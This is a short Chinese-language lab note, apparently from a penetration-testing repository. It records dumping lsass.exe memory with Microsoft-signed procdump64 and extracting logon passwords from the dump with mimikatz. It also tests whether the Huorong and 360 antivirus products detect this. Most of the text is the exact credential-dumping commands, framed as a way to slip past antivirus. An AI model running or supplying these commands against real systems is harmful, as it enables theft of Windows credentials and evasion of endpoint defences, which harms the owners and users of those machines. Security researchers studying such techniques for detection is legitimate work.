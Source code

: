 ### 结论
能过火绒  
不能过360安全卫士 v13

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 过火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
将lsass.dmp拷贝到宿主机中64位的mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 过360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
